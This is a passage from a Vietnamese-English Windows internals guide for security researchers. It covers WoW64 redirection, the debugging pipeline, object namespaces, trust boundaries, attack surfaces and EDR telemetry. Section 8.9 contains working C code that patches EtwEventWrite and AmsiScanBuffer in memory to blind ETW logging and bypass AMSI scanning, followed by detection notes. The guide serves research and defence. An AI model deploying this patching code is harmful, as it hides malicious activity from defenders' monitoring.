| `C:\Windows\System32\` | `C:\Windows\SysWOW64\` |
| `C:\Windows\System32\cmd.exe` | `C:\Windows\SysWOW64\cmd.exe` |
| `C:\Program Files\` | `C:\Program Files (x86)\` |

Dùng path `%windir%\Sysnative\` trong 32-bit process để access **real** System32.

**Registry redirection:**
Không phải toàn bộ registry được redirect — chỉ một số keys cụ thể:

| 32-bit access | Redirected to |
|--------------|--------------|
| `HKLM\SOFTWARE\` | `HKLM\SOFTWARE\Wow6432Node\` |
| `HKLM\SOFTWARE\Microsoft\Windows\` | `HKLM\SOFTWARE\Wow6432Node\Microsoft\Windows\` |
| `HKCU\SOFTWARE\` | `HKCU\SOFTWARE\Wow6432Node\` |

**Không** redirect: `HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion`, `HKLM\SYSTEM`, security-related keys.

**Syscall path cho WoW64 process:**
```
32-bit code → SysWOW64\ntdll.dll syscall stub
  → wow64cpu!BTCpuSimulate (emulate x86)
  → wow64!Wow64SystemServiceEx (thunk parameters)
  → 64-bit NtXxx() in 64-bit ntdll
  → SYSCALL to KiSystemCall64
```

**Researcher angle:**
- Debugger bitness phải match process bitness — 32-bit debugger trên 64-bit process sẽ thấy WoW64 view
- Procmon trên 64-bit Windows sẽ thấy redirected paths cho 32-bit processes — không phải actual paths
- Module list của WoW64 process chứa cả 32-bit và 64-bit modules (WoW64 support DLLs)
- Malware artifact ở `Wow6432Node` sẽ miss nếu chỉ scan `SOFTWARE\`

### 4.11 Debugging Mechanisms

**Exception delivery pipeline (user-mode debugging):**

```
Exception occurs (access violation, breakpoint, ...)
  ↓
KiDispatchException
  ↓
Kernel debugger attached (KD)?
  → YES: First-chance notification to KD
  ↓
User-mode debugger attached? (EPROCESS.DebugPort != NULL)
  → YES: Marshal exception → debug event → send to debug object
  → Debugger waits via NtWaitForDebugEvent, receives EXCEPTION_DEBUG_EVENT
  → Debugger: handle (DBG_CONTINUE) or pass back (DBG_EXCEPTION_NOT_HANDLED)
  ↓
VEH (Vectored Exception Handlers) — if registered via AddVectoredExceptionHandler
  ↓
SEH frame chain — structured exception handlers on call stack
  ↓
UnhandledExceptionFilter → Windows Error Reporting (WER)
  ↓
Second-chance exception:
  → Debugger notified again (last chance)
  → No debugger: WER crash report + process terminate
```

**First-chance vs second-chance:**

| | First-chance | Second-chance |
|--|-------------|--------------|
| When | Exception first occurs | After no handler claims it |
| Debugger option | Handle or pass through | Handle or process crashes |
| Meaning | Not necessarily error | Typically unhandled/fatal |
| WinDbg command | `gn` (go not handled) / `gh` (go handled) | Last chance to inspect |

**Debug object:**
Khi `DebugActiveProcess` được gọi, kernel tạo hoặc reuse một `_DEBUG_OBJECT` và gán vào `EPROCESS.DebugPort` của target. Tên "Port" là legacy từ thời LPC — hiện đại là debug object, không phải ALPC port.

Debugger receives debug events: process create/exit, thread create/exit, DLL load/unload, exception, RIP (fatal). Debugger phải acknowledge mỗi event với `NtDebugContinue` để target tiếp tục.

**Kernel debugging:**
WinDbg kernel mode connect đến target qua serial/USB/network/pipe. Kernel debugger thấy tất cả — kernel và user mode. Nhận first-chance exception trước cả user-mode debugger. Có quyền trực tiếp read/write kernel memory.

**Anti-debug detection (research context):**
Nhiều anti-debug techniques tương tác với debugging pipeline — kiểm tra `EPROCESS.DebugPort`, check PEB flags, monitor exception behavior. Researcher cần biết pipeline này để interpret what anti-debug code is checking — không phải để write bypass.

---

## 5. Important Windows Components / Structures

**Bảng tổng quan components:**

| Component | Vai trò | Researcher angle | Công cụ hữu ích |
|-----------|--------|-----------------|-----------------|
| System service dispatcher | Route syscalls đến kernel functions | Visibility layer; build-specific numbers | WinDbg `!process`, ETW |
| ntdll syscall stubs | Lowest user-mode syscall entry | Hooking target; build-specific | x64dbg, API Monitor |
| Object Manager | Name/type/handle/security cho mọi resource | Namespace, object relationships | WinObj, WinDbg `!object` |
| Object directory | Container trong namespace | Namespace structure; trust boundary | WinObj |
| Symbolic link object | Namespace alias — drive letters, device paths | Path decode; redirection analysis | WinObj, `!symlink` |
| Handle table | Per-process handle → object mapping | Process relationships, access granted | Process Explorer, handle.exe |
| Object header | Ref count, type index, security descriptor pointer | Object lifetime analysis | WinDbg `dt nt!_OBJECT_HEADER` |
| Dispatcher object | Waitable kernel synchronization primitives | Wait chains, named fingerprints | WinDbg `!waitanalysis` |
| Event / Mutant / Semaphore / Timer | Specific dispatcher types | Named object forensics | WinObj, Process Explorer |
| ALPC port | IPC endpoint object | Service communication boundaries | WinDbg `!alpc`, WinObj |
| WNF state | Pub-sub notification slot | Internal OS state visibility | WNFDump, NtApiDotNet |
| WoW64 layer | 32-bit ↔ 64-bit thunking | Path/registry/module confusion | Procmon, x64dbg 32-bit |
| File system redirector | System32 → SysWOW64 for 32-bit | Path artifact confusion | Procmon |
| Registry redirector | SOFTWARE → Wow6432Node for 32-bit | Registry artifact confusion | Procmon, Regedit |
| Exception dispatcher | Route exception → handler chain | Debugging, anti-debug analysis | WinDbg `sxe`/`sxd`, x64dbg |
| Debug object | Debugger ↔ debuggee channel | Anti-debug detection, debug forensics | WinDbg `dt nt!_DEBUG_OBJECT` |
| ETW providers | Event generation at many layers | Telemetry coverage; varies by build | logman, PerfView, WPR |
| WinDbg extensions | `!object`, `!handle`, `!alpc`, `!process` | Deep kernel inspection | WinDbg |
| WinObj | GUI Object Manager browser | Namespace visualization | WinObj (Sysinternals) |
| Handle.exe | CLI handle inspector | Per-process handle enumeration | Handle.exe (Sysinternals) |
| Process Explorer handles view | GUI per-process handles | Fast handle triage | Process Explorer (Sysinternals) |

### 5.1 Object Types và Object Directories

**Object type** xác định behavior của object đó — không phải programmer-defined class mà là kernel metadata:
- Callbacks: `DeleteProcedure`, `ParseProcedure`, `SecurityProcedure`, `CloseProcedure`
- Valid access rights cho loại này
- Pool tag cho allocation tracking
- Default security descriptor

**Object directory** (`_OBJECT_DIRECTORY`) là namespace container:
- `\Device\` — tất cả device objects; I/O đi qua đây; quan trọng nhất cho Ch.6 research
- `\Sessions\` — per-session namespaces; quan trọng nhất cho multi-session và service research
- `\BaseNamedObjects\` — user-accessible global named objects
- `\RPC Control\` — ALPC ports cho RPC; shows service communication endpoints

Researcher dùng `\Device` để hiểu hardware và virtual device landscape; dùng `\Sessions` để hiểu session isolation và cross-session naming.

### 5.2 Symbolic Links

Object Manager symbolic links map một namespace path sang một path khác. Khác với filesystem symbolic links (NTFS junction/symlink) — những này sống hoàn toàn trong kernel namespace.

**Resolving user paths qua symbolic links:**
```
User opens: \\.\C:\Windows\System32\cmd.exe
Object Manager resolves:
  \GLOBAL??\C: → \Device\HarddiskVolume3
  → \Device\HarddiskVolume3\Windows\System32\cmd.exe
```

**Drive letters là symbolic links.** `subst`, `net use`, và volume mounts đều tạo symbolic link objects trong `\GLOBAL??` hoặc per-session `\DosDevices\<LUID>`. Researcher dùng WinObj để thấy actual target — không phải Explorer.

**Research use case:** Khi analyzing malware path behavior, check `\GLOBAL??` để decode drive letter targets. Unusual symbolic links trong namespace có thể indicate persistence hoặc redirection mechanisms.

### 5.3 Debug Objects và Exception State

**Debug object lifecycle:**
1. Debugger: `NtCreateDebugObject` → tạo `_DEBUG_OBJECT`
2. Debugger: `NtDebugActiveProcess(hProcess, hDebug)` → gán debug object vào `EPROCESS.DebugPort`
3. Target: exception xảy ra → kernel kiểm tra `DebugPort` → queue event vào debug object
4. Debugger: `NtWaitForDebugEvent` returns → process event → `NtDebugContinue`
5. Detach: `NtDebugActiveProcess(hProcess, NULL)` → remove debug object từ target

**Forensic angle:**
- `EPROCESS.DebugPort != NULL` → process đang bị debugged tại thời điểm snapshot
- Debug object reveal debugger/debuggee relationship
- Trong crash dump: check all processes cho non-null DebugPort

**First-chance exceptions for researchers:**
Nhiều legitimate behaviors tạo first-chance exceptions — .NET marshaling, VCL exception handling, JavaScript engine, memory allocator. Debugger break trên mọi first-chance exception sẽ noisy. Filter theo exception code:
- `0xC0000005`: Access violation — có thể legit hoặc exploit
- `0x80000003`: Breakpoint — thường intentional
- `0xE06D7363` (`'msc'`): C++ exception — fully normal trong .NET
- `0x80000004`: Single step — debug trace

---

## 6. Trust Boundaries

### 6.1 User Mode ↔ Kernel Mode — Syscall Boundary

CPU privilege transition là trust boundary cứng nhất trong Windows.



**Kernel protections tại boundary:**
- `ProbeForRead` / `ProbeForWrite` validate user pointers nằm trong user address range
- User pointer dereferences wrapped trong `__try / __except` trong kernel
- SMEP: CPU blocks kernel from executing code in user pages
- SMAP: CPU warns kernel về user page access without explicit flag set
- KPTI: kernel page table isolation — Spectre/Meltdown mitigation

**Điểm quan trọng cho researcher:**
- Direct syscall thay đổi điểm observation ở user-mode, không phải kernel security
- Kernel argument validation xảy ra sau syscall entry — malformed arguments có thể trigger kernel bugs
- Syscall ABI (registers, calling convention) là x64 platform standard — stable; syscall numbers không stable

### 6.2 Object Namespace Boundary

Namespace là access control boundary vô hình nhưng quan trọng:

- **Root `\`:** Chỉ kernel writable — process không thể tạo objects ở root
- **`\Device\`:** Kernel-only — device objects tạo bởi drivers
- **`\BaseNamedObjects\`:** User-writable với DACL — default landing cho named objects
- **`\Sessions\N\BaseNamedObjects\`:** Per-session; process chỉ thấy session của mình by default
- **`\Sessions\N\AppContainerNamedObjects\<SID>\`:** AppContainer isolation

**Namespace squatting concept:**
Nếu attacker tạo named object trong `\BaseNamedObjects` với tên mà privileged service sẽ open (không create) — service open attacker's object. Service phải dùng `CREATE_ALWAYS` semantics và validate creator identity để tránh.

**Symbolic link target confusion:**
Resolver follow symlinks — attacker với write access vào directory có thể create symlink trỏ đến unexpected target. Path resolution không transparent với caller nếu không kiểm tra.

### 6.3 Handle Access Boundary

Handle encodes access mask tại thời điểm open. Subsequent operations validated against granted access.

**Cross-process handle leakage:**
- `DuplicateHandle`: explicit cross-process handle copy — caller cần `PROCESS_DUP_HANDLE` trên source process
- Inheritance: all inheritable handles pass to child — uncontrolled nếu không whitelist
- `PROC_THREAD_ATTRIBUTE_HANDLE_LIST`: explicit inherit whitelist — best practice

**Researcher note:** Sensitive handle (ví dụ: Token handle với `TOKEN_IMPERSONATE`, Process handle với `PROCESS_VM_WRITE`) trong unexpected process là high-signal. Process Explorer / handle.exe cho phép inspect handle tables.

### 6.4 IPC Trust Boundary

ALPC/RPC/named pipes cross process trust boundaries. Server và client có thể có khác nhau integrity levels, security contexts, và trust levels.

**Key security considerations:**
- Server-side security descriptor trên ALPC port: controls who can connect
- Impersonation: server gọi `NtAlpcImpersonateClientThread` → performs operation as client's identity — valid design nhưng impersonation scope phải limited
- Message validation: server phải validate client message content; trust level của message phụ thuộc vào client's trust level
- Named pipe security: `CreateNamedPipe` security descriptor controls access; server must validate client identity for privileged operations

### 6.5 Synchronization Object Boundary

Named synchronization objects cross process/session boundaries. Access rights matter:
- `EVENT_MODIFY_STATE` → signal event
- `EVENT_ALL_ACCESS` → signal, wait, modify
- `MUTEX_ALL_ACCESS` → acquire, release, modify

Cross-session named objects cần `Global\` prefix và phải pass cross-session security checks.

Object lifetime boundary: object tồn tại chừng nào còn reference. Process exit không guarantee object cleanup nếu kernel pointer còn. Forensically relevant.

### 6.6 WoW64 Compatibility Boundary

WoW64 không phải security boundary — kernel treat 32-bit WoW64 process như any other process. Nhưng WoW64 tạo **observation boundary**:

- 32-bit process thấy redirected paths → forensic tool chạy trong 32-bit context sẽ thấy redirected view
- 32-bit tool inspect 32-bit registry view → miss 64-bit software registry entries
- Procmon trên 64-bit OS thấy redirected paths cho 32-bit process — phải be aware

**Heaven's Gate concept (analytical):**
WoW64 process bình thường đi qua WoW64 thunking layer — nơi user-mode hooks thường đặt. Có thể thực thi 64-bit code trực tiếp từ WoW64 process bằng cách switch CPU segment context. Điều này thay đổi điểm observation ở WoW64 layer — nhưng kernel callbacks và ETW tracing không bị affect vì những này xảy ra ở kernel level.

**Researcher implication:** EDR monitoring WoW64 syscall layer có thể miss certain call patterns. Kernel-level monitoring không bị affect bởi how user-mode calls are dispatched.

### 6.7 Debugging Boundary

Debugger access requires privilege:
- `OpenProcess(PROCESS_ALL_ACCESS, ...)` → cần appropriate access rights
- `DebugActiveProcess` → cần `PROCESS_VM_READ`, `PROCESS_VM_WRITE`, `PROCESS_SUSPEND_RESUME`
- Kernel debugging → physical access hoặc authorized VM debugging — full system access

**Protected process boundary:**
Protected Processes (PP) và Protected Process Light (PPL) restrict debug attach — even SYSTEM processes cannot attach debugger to higher-protection target. Antimalware và LSASS thường chạy như PPL.

**Debug privilege:** `SeDebugPrivilege` (trong elevated Administrator token) cho phép open otherwise-restricted processes. Không bypass PPL.

### 6.8 Notification Boundary

WNF, ETW, và Event Log là ba separate notification systems với different:
- Coverage: không phải mọi behavior đều có WNF/ETW/EventLog coverage
- Subscription model: ETW = stream; WNF = state; EventLog = audit record
- Privilege required: consuming ETW session thường cần elevation; Event Log readable by standard user
- Availability: ETW provider coverage varies by Windows version và configuration

---

## 7. Attack Surface Map

| Surface | Ví dụ cụ thể | Boundary crossed | Cần observe gì | Research value |
|---------|-------------|-----------------|----------------|---------------|
| Syscall entry points | `NtCreateFile`, `NtOpenProcess`, `NtAllocateVirtualMemory` | User → Kernel | ETW syscall events, kernel callbacks | Very high — every kernel op |
| ntdll stubs | Syscall stub code trong ntdll.dll | User-mode API → Native API | API monitor, ntdll hook | High — lowest user-mode layer |
| Native API calls | `NtWriteVirtualMemory`, `NtQueueApcThread` | User → Kernel (bypass Win32) | Direct syscall monitoring | High — common injection path |
| Object namespace paths | `\BaseNamedObjects\*`, `\Device\*` | Namespace ACL boundary | WinObj, memory forensics | High — reveals hidden IPC |
| Named events | `CreateEvent(NULL, ..., "MyEvent")` | Process ↔ Process via namespace | Object creation ETW, WinObj | Medium — coordination artifact |
| Named mutexes | `CreateMutex(NULL, FALSE, "MyMutex")` | Process singleton enforcement | Object creation, handle table | Medium — fingerprint artifact |
| Named sections | `CreateFileMapping(INVALID_HANDLE, ..., "MySection")` | Shared memory cross-process | Section object monitoring | High — injection surface |
| Symbolic links | `\GLOBAL??\X:` drive letter targets | Path resolution boundary | WinObj symlink target | Medium — path decode |
| Handle duplication | `DuplicateHandle` across processes | Process ↔ Process | Handle dup events (Sysmon 10) | High — access escalation |
| Handle inheritance | Child inherits sensitive parent handles | Parent → Child | Handle table at spawn | Medium — unintended access |
| ALPC ports | `\RPC Control\*` endpoints | Service IPC boundary | WinDbg `!alpc`, namespace | High — service attack surface |
| RPC endpoints | COM, service RPC over ALPC | Client → Service privilege | RPC ETW, Sysmon | High — service boundary |
| Named pipes | `\Device\NamedPipe\*` | Process IPC | Sysmon 17/18, Procmon | High — common C2 comms |
| WNF state subscriptions | System state notifications | Component → Component | WNFDump, NtApiDotNet | Medium — internal OS view |
| WoW64 redirection | System32→SysWOW64, SOFTWARE→Wow6432Node | 32/64-bit observation boundary | Procmon with bitness | High — analysis confusion |
| Exception handlers | VEH/SEH chain | Stack → execution flow | Debugger first-chance | Medium — anti-debug/flow |
| Debugger attach | `DebugActiveProcess` | Debugger → Target memory | ETW process events | High — code injection vector |
| Debug objects | `EPROCESS.DebugPort` | Debugger ↔ Debuggee | Memory forensics | Medium — debug forensics |
| Timer objects | `CreateWaitableTimer`, `KeSetTimer` | Thread scheduling | Timer ETW events | Low-medium — delayed exec |
| Worker queues | `ExQueueWorkItem` | Kernel thread pool | Harder to attribute | Medium — attribution evasion |
| Synchronization objects | Race on shared named objects | Thread scheduling race | Wait chain analysis | Medium — TOCTOU |
| ETW providers | `Microsoft-Windows-Kernel-*` | Observability boundary | ETW session monitoring | Very high — telemetry gap |
| Object Manager directories | `\Device`, `\Sessions`, `\BaseNamedObjects` | Namespace structure | WinObj, `!object` | High — hidden structure |
| Session namespaces | `\Sessions\N\BaseNamedObjects` | Cross-session IPC | Session-aware tools | Medium — session isolation |
| `\Device` namespace | Device object paths | User → Device | WinObj, Procmon | High — direct device access |
| `\GLOBAL??` links | Drive letter resolution | Path → Device | WinObj | Medium — path manipulation |

---

## 8. Abuse Techniques — Code Examples

### 8.1 Syscall Visibility Gap Class

**Khái niệm:** User-mode API instrumentation (Win32 hooks, IAT hooks, ntdll hooks) và kernel telemetry (ETW, ObRegisterCallbacks) thấy behavior ở các layers khác nhau. Thay đổi call path thay đổi điểm observation ở user-mode — không thay đổi kernel authorization.

**Detection focus:** Kernel-level telemetry (ETW kernel providers, `ObRegisterCallbacks`) không bị ảnh hưởng bởi user-mode call path changes. Stack trace analysis giúp phân biệt legitimate vs anomalous call patterns.

**Build sensitivity:** Syscall numbers thay đổi theo build. Tools/detections hardcode syscall numbers sẽ false-negative sau OS update. Robust detection dùng symbol lookup hoặc semantic monitoring.

**Analytical frame cho researcher:** "Monitoring layer X có thể thấy behavior Y không?" là câu hỏi đúng — không phải "cách bypass monitoring layer X."

### 8.2 Object Namespace Confusion Class

**Khái niệm:** Incorrect assumptions về object namespace dẫn đến security và logic mistakes.

**Sub-patterns:**
- *Local vs Global naming:* Process A tạo `"MyMutex"` trong Session 1; Service trong Session 0 tạo `"MyMutex"` — hai objects khác nhau. Service nên dùng `"Global\MyMutex"` nếu cần cross-session coordination.
- *Per-session isolation:* Named objects không automatically visible cross-session. Service communication với desktop app cần explicit global naming.
- *Symbolic link target hiding:* Path resolution theo symlinks — actual target có thể khác expected.
- *Security descriptor misconfiguration:* Object có DACL quá permissive cho phép unexpected access.

**Detection signals:** Unexpected named object creation trong namespace; object creator không match expected process; unusual symbolic links trong GLOBAL namespace.

### 8.3 Handle Inheritance/Duplication Class

**Khái niệm:** Handles có thể cross process boundaries qua inheritance hoặc `DuplicateHandle`. Nếu sensitive handle (token, process với high access, section với executable content) inherited/duplicated vào untrusted process — untrusted process gains that access.

**Detection focus:** `DuplicateHandle` events với cross-process target; spawning process với inheritable handle flag when parent has sensitive handles; child process handle table có unexpected high-privilege handles.

**Mitigation pattern:** `PROC_THREAD_ATTRIBUTE_HANDLE_LIST` để explicit whitelist inherit. Clear inheritable flag trên sensitive handles trước spawn.

### 8.4 IPC Trust Boundary Class

**Khái niệm:** ALPC/RPC/named pipe connections cross privilege levels. Server operates at its own privilege; clients có thể lower or higher privilege. Trust assumptions trong server code matter.

**Research focus:**
- Server-side security descriptor: ai có thể connect? Is connection restricted?
- Impersonation scope: server có impersonate trước khi validate? Impersonation level?
- Message validation: server validate format/bounds trước khi use message content?
- Endpoint ACL: anonymous client có thể reach privileged endpoint không?

**Analytical approach:** Trace service IPC communications qua RPC ETW, Sysmon named pipe events. Map server endpoints và their clients. Identify privilege differentials.

### 8.5 WoW64 Analysis Confusion Class

**Khái niệm:** Research artifacts của 32-bit malware có thể appear ở different locations than researcher expects — due to WoW64 redirection.

**Sub-patterns:**
- *Path confusion:* Malware drops file đến "System32" từ perspective của 32-bit process → actual location là SysWOW64. Researcher scanning System32 misses file.
- *Registry confusion:* Malware writes run key trong "SOFTWARE\Microsoft\Windows\CurrentVersion\Run" → actual write vào Wow6432Node path. Researcher scanning standard path misses key.
- *Tool bitness confusion:* Using 64-bit regedit to check 32-bit malware's registry keys → sees different view than malware saw.
- *Module list confusion:* Debugger bitness mismatch → wrong module list, wrong call stack interpretation.

**Mitigation:** Always check both 32-bit and 64-bit views khi analyzing potentially 32-bit artifacts. Procmon trên 64-bit thấy actual paths (post-redirect) — hữu ích để verify. Regedit: check cả `SOFTWARE\` và `SOFTWARE\Wow6432Node\`.

### 8.6 Exception/Debugger Manipulation Class

**Khái niệm:** Programs có thể tương tác với exception/debugging pipeline để detect analysis environment hoặc alter behavior.

**Analytical patterns researcher encounters:**
- *Exception-based detection:* Code raise exception, catch nó — nếu debugger attached, behavior changes (timing, second-chance handling)
- *PEB flag check:* `IsDebuggerPresent` reads PEB.BeingDebugged
- *DebugPort check:* `NtQueryInformationProcess(ProcessDebugPort)` reads `EPROCESS.DebugPort`
- *Timing checks:* Exception handling timing changes under debugger

**Research angle:** Khi reversing code với anti-analysis behavior, map ra which checks are being done — exception-based, PEB-based, port-based, timing-based. này giúp understand what evasion conditions exist, không phải recipe để bypass.

### 8.7 Synchronization Object Fingerprint Class

**Khái niệm:** Named mutex/event/semaphore patterns identify software coordination behavior. Malware families thường dùng specific names để: prevent multiple instance, coordinate loader/payload, signal C2 readiness.

**Research use:**
- Named mutex presence là artifact — but weak standalone evidence
- Value: correlate mutex name với known malware family databases
- Risk: mutex names easy to change — absence không prove clean; presence không prove infection
- Combine với: file system artifacts, network IOCs, process behavior

**Detection focus:** Monitor named object creation events cho known-bad names. Unusual objects in namespace alongside suspicious process behavior. Objects surviving process exit (persistent references).

### 8.8 WNF/Notification Observation Class

**Khái niệm:** WNF state changes có thể reveal internal Windows component activity không visible through standard APIs. Malware hoặc implants có thể subscribe to WNF states để detect system events (logon, network, power).

**Research uses:**
- Reverse engineer Windows component interactions — ví dụ: what triggers logon-related state changes
- Monitor system state transitions không exposed via standard Events
- Understand Windows internals behavior across components

**Limitations:** WNF state names thay đổi giữa builds. Less tool support than ETW. Requires specialized tools (WNFDump, NtApiDotNet). Not a replacement for ETW for standard monitoring.

### 8.9 ETW Patching — Blind EDR Telemetry

**Concept:** Patch `EtwEventWrite` trong ntdll.dll của current process → mọi ETW event từ process đó không được emit → EDR/Sysmon mù với activity của process này.

```c
#include <windows.h>
#include <stdio.h>

// Patch EtwEventWrite để return STATUS_SUCCESS (0) ngay lập tức
// Áp dụng trong current process — chỉ affect events từ process này
BOOL PatchETW() {
    HMODULE hNtdll = GetModuleHandleA("ntdll.dll");
    FARPROC pEtwWrite = GetProcAddress(hNtdll, "EtwEventWrite");
    if (!pEtwWrite) {
        printf("[-] EtwEventWrite not found\n");
        return FALSE;
    }
    printf("[*] EtwEventWrite at: %p\n", pEtwWrite);

    // Patch bytes: mov eax, 0x00000000 / ret
    // x64: B8 00 00 00 00 C3
    unsigned char patch[] = { 0xB8, 0x00, 0x00, 0x00, 0x00, 0xC3 };
    DWORD oldProtect;
    if (!VirtualProtect(pEtwWrite, sizeof(patch), PAGE_EXECUTE_READWRITE, &oldProtect)) {
        printf("[-] VirtualProtect failed: %lu\n", GetLastError());
        return FALSE;
    }
    memcpy(pEtwWrite, patch, sizeof(patch));
    VirtualProtect(pEtwWrite, sizeof(patch), oldProtect, &oldProtect);
    printf("[+] ETW patched — process now invisible to ETW consumers\n");
    return TRUE;
}

// Patch AmsiScanBuffer để bypass AMSI (cùng pattern)
BOOL PatchAMSI() {
    HMODULE hAmsi = LoadLibraryA("amsi.dll");
    if (!hAmsi) return FALSE;  // AMSI không available trong process này
    
    FARPROC pScan = GetProcAddress(hAmsi, "AmsiScanBuffer");
    // Patch: mov eax, 0x80070057 (E_INVALIDARG) / ret
    // → AMSI returns "invalid argument" → caller treats as "scan failed" → allow
    unsigned char patch[] = { 0xB8, 0x57, 0x00, 0x07, 0x80, 0xC3 };
    DWORD oldProtect;
    VirtualProtect(pScan, sizeof(patch), PAGE_EXECUTE_READWRITE, &oldProtect);
    memcpy(pScan, patch, sizeof(patch));
    VirtualProtect(pScan, sizeof(patch), oldProtect, &oldProtect);
    printf("[+] AMSI patched — AmsiScanBuffer returns E_INVALIDARG\n");
    return TRUE;
}
// Compile: cl /nologo etw_patch.c /link /out:etw_patch.exe
```

**Detection:**
- EDR so sánh `EtwEventWrite` bytes in-memory vs on-disk ntdll → mismatch = alert
- Instrumentation callback (`NtSetInformationProcess ProcessInstrumentationCallback`): một số EDR dùng kernel-set callback detect function byte patches
- ETW `Microsoft-Windows-Threat-Intelligence` capture `VirtualProtect` trên ntdll pages với EXECUTE_READWRITE
- Kernel integrity: một số EDR cũng monitor ntdll .text section hash định kỳ


---

## 9. Defender / EDR Telemetry


> Telemetry interpretation note:
> ETW/Event Log/WMI/EDR are provider-generated or sensor-generated views, not universal ground truth. Telemetry must be interpreted with source layer, configuration, provider state, collection policy, and retention. Absence of an event is not proof of absence. High-signal anomaly still requires context and correlation.

### 9.1 Syscall/API Layer Telemetry

| Event class | Ví dụ | Source layer | Research notes | Giới hạn |
|-------------|-------|-------------|----------------|---------|
| Win32 API monitoring | `CreateFile`, `OpenProcess`, `WriteProcessMemory` | Win32/kernel32 layer | Highest-level; easy to correlate with user behavior | Bypassed by direct Native API call |
| Native API monitoring | `NtCreateFile`, `NtOpenProcess`, `NtWriteVirtualMemory` | ntdll layer | Catches more than Win32 hooks | Bypassed by direct syscall |
| ETW kernel syscall events | Syscall entry/exit events | Kernel ETW | Not bypassed by user-mode call path changes | May require special config; high volume |
| Kernel callback | `PsSetCreateProcessNotifyRoutine`, `ObRegisterCallbacks` | Kernel driver | Sees process/thread/handle events regardless of user call path | Coverage limited to registered callbacks |
| Stack trace collection | Call stack at event time | User-mode agent | Differentiates legitimate vs anomalous callers | Noisy; can be spoofed at user-mode layer |
| Image load notification | DLL/module loads | Kernel `PsSetLoadImageNotifyRoutine` | Catches all image loads including injected | Does not show what code does after load |

### 9.2 Object và Handle Telemetry

| Event | Source | Nội dung quan trọng |
|-------|--------|-------------------|
| Handle creation / open | ETW Kernel-Process | Object type, access mask, handle value, process |
| Handle duplication | ETW Kernel-Process | Source process, target process, object, new access |
| Process handle open | Sysmon Event 10 (ProcessAccess) | Source PID, target PID, access mask, call stack |
| Section object access | ETW / ObRegisterCallbacks | Section name, access type |
| Named object create/open | ETW object events | Object name, namespace path, creator |
| Symbolic link resolution | Object Manager (rare direct event) | Source path, resolved target |
| Object callbacks | `ObRegisterCallbacks` registered by EDR | Can strip access bits on open; logs denied operations |
| Handle close | ETW Kernel-Process | Handle value, object type |

**Key point:** `ObRegisterCallbacks` callbacks cho EDR drivers có thể strip dangerous access rights (ví dụ: remove `PROCESS_VM_WRITE` từ `OpenProcess`) nhưng không thể grant access không có. Callbacks chỉ available cho Process, Thread, Desktop object types by default — không cover ALPC, Section, Event, v.v. trực tiếp.

### 9.3 IPC Telemetry

| Surface | Event | Source | Ghi chú |
|---------|-------|--------|---------|
| Named pipe creation | Sysmon Event 17 | Sysmon | Pipe name, creating process |
| Named pipe connection | Sysmon Event 18 | Sysmon | Client/server PID, pipe name |
| RPC endpoint activity | ETW Microsoft-Windows-RPC | ETW | RPC interface, endpoint, caller |
| ALPC port activity | WinDbg `!alpc` (live/dump) | Kernel debug | Port connections, message counts — limited ETW coverage |
| Impersonation context | Security Audit 4624 logon type | Event Log | Service logon, impersonation level |
| Service boundary | Security Audit 4688 + 4689 | Event Log | Process create/exit around service calls |

**ALPC monitoring caveat:** Raw ALPC syscall events không well-covered by default ETW. RPC ETW covers RPC-over-ALPC but not arbitrary ALPC. Kernel-level monitoring via driver hoặc debugger needed for full ALPC visibility.

### 9.4 Exception/Debug Telemetry

| Source | Event | Nội dung |
|--------|-------|---------|
| WER (Windows Error Reporting) | Application crash | Exception code, faulting address, module, stack |
| ETW Kernel-Process | Exception events | Exception address, exception code, process/thread |
| Security Audit 4656/4663 | Debug object handle access | Who opened debug object, on which process |
| Sysmon Event 10 (ProcessAccess) | Debug-related access flags | `PROCESS_VM_READ` + `PROCESS_SUSPEND_RESUME` combo |
| ETW process events | Debug attach/detach | Debugger PID, debuggee PID |
| Minidump artifacts | `%SystemRoot%\Minidump\` | Post-crash stack, exception record, module list |

**First-chance exception as noise:** Nhiều legitimate .NET, C++, và scripting applications tạo first-chance exceptions as normal flow. Filtering trên exception code và calling module trước khi alert là cần thiết.

### 9.5 WoW64 Telemetry

| Indicator | Source | Ghi chú |
|-----------|--------|---------|
| Process bitness | Sysmon Event 1 / ETW process create | `Is32Bit` / WoW64 flag in process create event |
| SysWOW64 path usage | Procmon / ETW Kernel-File | 32-bit process paths appear as SysWOW64 |
| Wow6432Node registry | Procmon / ETW Kernel-Registry | 32-bit process writes show Wow6432Node paths |
| 32-bit module load | ETW image load events | WoW64 DLLs (wow64.dll, wow64cpu.dll) in load list |
| Mixed 32/64 analysis | Manual correlation | Tool bitness must match target for accurate view |

**Practical note:** Khi Procmon shows 32-bit process writing to `HKLM\SOFTWARE\Microsoft\...` — actual registry path là `Wow6432Node`. Confirm với Regedit checking both paths.

### 9.6 WNF/Notification Telemetry

| Method | Coverage | Ghi chú |
|--------|---------|---------|
| WNFDump | Enumerate all WNF states | Snapshot tool; không real-time stream |
| NtApiDotNet subscription | Subscribe to state change | Development tool; không production agent |
| ETW (limited) | Some WNF activity may appear | Not reliable; WNF không mapped to ETW cleanly |
| Memory forensics | WNF state data in kernel | Works from crash dump |

**Caveat:** WNF monitoring không standardized. Default EDR coverage of WNF activity thấp. WNF là useful research tool cho understanding Windows internals nhưng không substitute cho ETW trong production monitoring.

### 9.7 Telemetry Limits

**User-mode sensors miss lower-layer behavior:**
User-mode API hooks, IAT hooks, và injection-based monitoring không thấy direct syscall path. Kernel callbacks thấy regardless, nhưng không mọi operation có kernel callback registered.

**ETW provider coverage varies:**
`Microsoft-Windows-Kernel-Process` cho process/thread events; `Microsoft-Windows-Kernel-File` cho file I/O; `Microsoft-Windows-RPC` cho RPC. Nhưng raw ALPC, WNF internals, và object manager operations không fully covered bởi default providers.

**Object namespace only visible in memory/debugger:**
Trạng thái `\BaseNamedObjects` chỉ accessible qua Object Manager namespace — không có standard API để enumerate tất cả named objects. WinObj, WinDbg, và NtApiDotNet cần elevation.

**ALPC/WNF require specialized tooling:**
Standard syslog/SIEM pipelines thường không capture ALPC connections hoặc WNF state changes. Cần kernel-level monitoring hoặc specialized agents.

**Stack traces valuable but imperfect:**
Stack trace tại event time giúp phân biệt legitimate (từ known module) vs suspicious (từ shellcode region, unusual module). Nhưng stack traces có thể manipulated ở user-mode level — kernel stack traces reliable hơn.



---

## 10. Forensic Artifacts

### 10.1 Object và Handle Artifacts

**Live system — process handle tables:**
```
# Handle.exe (Sysinternals):
handle.exe -p <PID>                    # all handles, process
